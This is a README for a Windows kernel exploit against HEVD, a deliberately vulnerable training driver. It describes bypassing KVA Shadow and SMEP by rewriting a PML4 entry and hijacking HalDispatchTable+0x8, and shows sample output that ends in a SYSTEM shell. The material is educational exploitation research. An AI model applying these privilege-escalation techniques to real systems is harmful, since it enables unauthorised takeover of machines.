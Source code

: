 # HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit

## Introduction

This repository contains an exploit for [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) that bypasses [KVA Shadow](https://msrc.microsoft.com/blog/2018/03/kva-shadow-mitigating-meltdown-on-windows/), a mitigation for the Meltdown vulnerability.


## Exploit Overview

The exploit leverages [an Arbitrary Overwrite vulnerability in HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/b02b6ea/Driver/HEVD/Windows/ArbitraryWrite.c#L112), modifying the PML4 entry to bypass both KVA Shadow and SMEP.

For a detailed explanation and walkthrough of this exploit, see my blog post: [Windows Kernel Exploitation — HEVD on Windows 10 22H2](https://medium.com/@ommadawn46/windows-kernel-exploitation-hevd-on-windows-10-22h2-b407c6f5b8f7).
 

## Tested Environment

This exploit was tested in the following environment:

- Windows 10 Version 22H2 (OS Build 19045.3930)
- KVA Shadow: Enabled
- VBS/HVCI: Disabled
- Integrity Level: Medium


### Sample Output

```
C:\Users\debuggee>HEVD_ArbitraryOverwrite.exe
HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit
Windows 10 Version 22H2 (OS Build 19045.3930) with KVA Shadow enabled
-----

[*] Executable shellcode: 000002846A110000
[+] HEVD device handle: 0000000000000098
[+] Kernel base address: FFFFF80560A00000
[+] NtQueryIntervalProfile: 00007FF8C704FA00

[*] Leaking virtual address of shellcode's PML4 entry...
[!] Writing: *(000000BF51BBFC60) = *(FFFFF80560C6B573)
[*] Leaked PTE virtual address: FFFF940000000000
[*] Extracted PML4 Self Reference Entry index: 128
[*] Extracted shellcode's PML4 index: 005
[*] Calculated virtual address for shellcode's PML4 entry: FFFF944A25128028

[*] Modifying shellcode's PML4 entry to bypass SMEP and KVA Shadow...
[!] Writing: *(000000BF51BBFC70) = *(FFFF944A25128028)
[*] Leaked shellcode's PML4 entry: 8A0000015F3D5867
[*] Modified shellcode's PML4 entry: 0A0000015F3D5863
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCB8)
[*] Overwrote PML4 entry to make shellcode executable in kernel mode

[*] Modifying HalDispatchTable+0x8 for shellcode execution...
[!] Writing: *(000000BF51BBFC70) = *(FFFFF80561600A68)
[*] Leaked HalDispatchTable+0x8: FFFFF80561392EF0
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFCE0)
[*] Overwrote HalDispatchTable+0x8 to gain control flow

[*] Executing shellcode...
[*] Executable SetR13 function allocated at: 000002846A240000
[*] Setting R13 to shellcode's address
[*] Calling NtQueryIntervalProfile to execute shellcode

[*] Restoring the kernel state...
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCF8)
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFD00)

[+] Spawning a shell with SYSTEM privilege
```

```
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\Users\debuggee>whoami
nt authority\system
```


## Build

To build the exploit, execute the following command in [x64 Native Tools Command Prompt](https://learn.microsoft.com/cpp/build/how-to-enable-a-64-bit-visual-cpp-toolset-on-the-command-line?view=msvc-170):

```
cl.exe HEVD_ArbitraryOverwrite.c
```


## Verifying KVA Shadow Status

To verify if KVA Shadow is active on your system, use [SpecuCheck](https://github.com/ionescu007/SpecuCheck):

```
C:\Users\debuggee>SpecuCheck.exe
SpecuCheck v1.1.1    --   Copyright(c) 2018 Alex Ionescu
https://ionescu007.github.io/SpecuCheck/  --   @aionescu
--------------------------------------------------------

Mitigations for CVE-2017-5754 [rogue data cache load]
--------------------------------------------------------
[-] Kernel VA Shadowing Enabled:                    yes
 ├───> Unnecessary due lack of CPU vulnerability:    no
 ├───> With User Pages Marked Global:                no
 ├───> With PCID Support:                           yes
 └───> With PCID Flushing Optimization (INVPCID):   yes
...
```


## Disclaimer

This code is provided for educational purposes only. Use it responsibly and only on systems you have permission to test.
